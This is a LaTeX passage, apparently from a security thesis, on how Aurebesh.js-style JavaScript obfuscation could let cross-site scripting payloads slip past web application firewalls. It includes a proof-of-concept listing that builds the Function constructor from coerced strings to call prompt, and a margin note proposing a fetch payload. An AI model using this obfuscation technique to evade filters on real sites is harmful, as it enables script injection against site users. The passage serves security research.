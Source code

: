 In contrast to the author who is pursuing the translation of JavaScript into other writing systems, antagonist actors might use this idea to translate \gls{xss} payloads that are blocked by a Web application firewall into \gls{xss} payloads that bypass Web application firewalls. Antagonist actors are not limited to just using 9 variables when crafting \gls{xss} payloads using Aurebesh.js. They can use Aurebesh.js as a base for their payloads while adding more characters and variables as needed.
The obfuscation gained by using Aurebesh.js might make payloads evade detection while the added payload content maliciously influences the Web application.
As a proof of concept, the function \verb|alert| has been substituded with the function \verb|prompt| in the following example:

\begin{lstlisting}[style=basicStyle, caption=Aurebesh.js obfuscation of prompt, label={lst:aurebeshprompt}]
		A = ''              // empty string
		B = !A + A          // "true"
		C = !B + A          // "false"
		D = A + {}          // "[object Object]"
		E = B[A++]          // "t" = "true"[0]
		F = B[G = A]        // "r" = "true"[1]
		H = ++G + A         // 2, 3
		I = D[G + H]        // "c"

		B[
		  I +=              // "c"
		    D[A] +          // "o" = "object"[0]
		    (B.C+D)[A] +    // "n" = "undefined"[1]
		    C[H] +          // "s" = "false"[3]
		    E +             // "t"
		    F +             // "r"
		    B[G] +          // "u" = "true"[2]
		    I +             // "c" = "[object]"[5]
		    E +             // "t"
		    D[A] +          // "o" = "[object]"[1]
		    F               // "r"
		][
		  I                 // "constructor"
		](
		  'p' +             // "p"
		  F +               // "r"
		  D[A] +            // "o"
		  'm' +             // "m"
		  'p' +             // "p"
		  E +               // "t"
		  '(A,++A)'         // "(1,2)"
		)()
\end{lstlisting}

For the test result of this payload see Listing~\ref{lst:aurebeshpromptbypass}.

{\color{red} evtl hier noch eine weitere, interessantere payload (fetch)}
